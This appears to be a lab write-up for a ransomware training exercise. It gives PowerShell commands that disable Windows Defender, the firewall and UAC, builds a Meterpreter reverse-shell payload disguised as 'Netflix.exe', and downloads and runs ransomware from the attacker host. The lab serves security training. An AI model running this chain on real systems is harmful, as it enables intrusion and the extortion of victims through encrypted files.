 Ransomware Training Project Live Lab
Environment Structure
Virtualization
Platform: VirtualBox
Network Components
Firewall/Router: pfSense
Systems
Attacker Machine: Kali Linux (on the same LAN as the target)
Target Machine: PC11 with Windows 11 (on the same LAN as the attacker)
Tools Used
Metasploit: For exploit development and payload deployment
Meterpreter: For post-exploitation and reverse shell capabilities
SET Toolkit (Social Engineering Toolkit): To simulate social engineering attacks
Apache2: For hosting payloads and web-based attack vectors
PowerShell: For executing commands on Windows to disable security features and set up the reverse shell
Project Overview and Observations
The initial step in this project is to ensure that both virtual machines (attacker and target) are on the same network to avoid complexities. This configuration avoids the need for inter-LAN attacks, which would require advanced configurations like separate LANs and routing.

Disabling Security Features on Target
To prepare the Windows 11 VM, several PowerShell commands with administrative privileges are run to disable key security components:

Disable Windows Defender Real-Time Monitoring:

powershell
Copy code
Set-MpPreference -DisableRealtimeMonitoring $true
Disable Windows Firewall:

powershell
Copy code
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Disable User Account Control (UAC):

powershell
Copy code
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
Suppress Windows Security Notifications:

powershell
Copy code
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings" -Name "NOC_GLOBAL_SETTING_TOASTS_ENABLED" -Value 0 -PropertyType DWORD -Force
After these commands, check the Windows Security UI for alerts and verify that key security features are disabled (e.g., Firewall, Virus protection, UAC, Tamper Protection).

Additional Manual Steps
Some features need manual configuration:

Disable Microsoft Defender SmartScreen:

Go to Windows Security > App & Browser Control.
Turn off Check apps and files and SmartScreen for Microsoft Edge.
Disable Tamper Protection:

Go to Windows Security > Virus & threat protection settings.
Deploying the Setup
You can compile PowerShell scripts or commands into a .ps1 file. Social engineering methods (like phishing or Trojan-style embedding) may be used to execute the script.

Network Scanning
Identify the IP Address of the Kali machine to understand the subnet.
Nmap Scan on LAN IP range 192.168.1.0/24:
bash
Copy code
nmap -sV 192.168.1.0/24
This scan identifies network endpoints, IP addresses, open ports, and services, helping locate the Windows machine.
Creating the Payload
Using the Social Engineering Toolkit (SET):

Launch SET and choose:
Option 1: Social Engineering
Option 4: Create a payload and listener
Option 2: Windows Reverse_TCP Meterpreter
Configure the payload:
Enter the IP address of your Kali machine.
Use a port, e.g., 88.
Running Apache2
The Apache2 server hosts the payload:

Check Apache2 Status:
bash
Copy code
service apache2 status
Copy the Payload:
bash
Copy code
cp /root/.set/payload.exe /var/www/html/Netflix.exe
Start Apache2 Server:
bash
Copy code
service apache2 start
Setting Up the Listener
Return to the terminal where the payload listener prompt was left open. Confirm by entering yes to load the listener in msfconsole:

bash
Copy code
msf6 exploit(multi/handler) >
Downloading and Running the Payload
To access the payload, download it on the Windows machine from the LAN address:

plaintext
Copy code
192.168.1.102/Netflix.exe
Executing the Shell and Ransomware Attack
After executing the payload, connect to the session with Meterpreter:

bash
Copy code
sessions -i 1
Download Ransomware Payload:
bash
Copy code
curl -O 192.168.1.102/CashCat.exe
Execute the Ransomware:
bash
Copy code
start CashCat.exe
This encrypts files with an extension (e.g., .porno), making them unusable. To decrypt:

plaintext
Copy code
123456789
Disclaimer
This demonstration is strictly for educational purposes, showcasing ethical hacking practices. The project emphasizes proficiency with cybersecurity tools, scripting languages, and general knowledge of cybersecurity techniques.


